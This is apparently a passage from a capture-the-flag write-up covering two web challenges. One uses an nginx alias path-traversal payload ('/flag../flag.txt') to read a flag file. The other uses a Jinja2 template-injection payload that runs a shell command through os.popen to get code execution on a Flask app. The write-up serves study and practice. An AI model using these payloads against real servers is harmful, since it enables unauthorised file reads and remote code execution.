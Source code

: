 ![X category](https://img.shields.io/badge/category-Web-blue.svg)
![X points](https://img.shields.io/badge/points-150-green.svg)

**Challenge Description :** Un serveur web ultra sécurisé a été mis en place, mais il cache certaines choses... A toi de les retrouver.

### Approach

In this challenge I can see the nginx configuration in file given :
```
...
        location /flag {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            #try_files $uri $uri/ /index.php?q=$uri&$args;
            alias /var/www/html/flag/;
        }
...
```

There is `/flag` path but this last not finish by `/` so I can use a vulnerability of nignx (Alias LFI Misconfiguration[](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx#alias-lfi-misconfiguration)).

I found this payload for see the flag: `/flag../flag.txt`

**Flag :** `ws{S3cuR3d_W3b_4pp}`

## **Flask&Furious**

![X category](https://img.shields.io/badge/category-Web-blue.svg)
![X points](https://img.shields.io/badge/points-180-green.svg)

**Challenge Description :** J'en ai eu marre des technos traditionnelles, c'est toujours plein de vulnérabilités... Avec mon nouveau site c'est fini ! C'est encore en plein développement mais je sais déjà que je peux l'exposer sans risque.

### Approach

When I see a Flask app and input user I can directly test SSTI vulnerability with the payload `{{7*'7'}}`.

And yes the result is `Hello, bienvenue 7777777, le site est encore en construction, reviens bientôt !`

Now I can use the following paylaod found on https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/: `{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}`

The result is:
`Hello, bienvenue ws{Fl4sk_R00t3d_with_N4me} , le site est encore en construction, reviens bientôt !
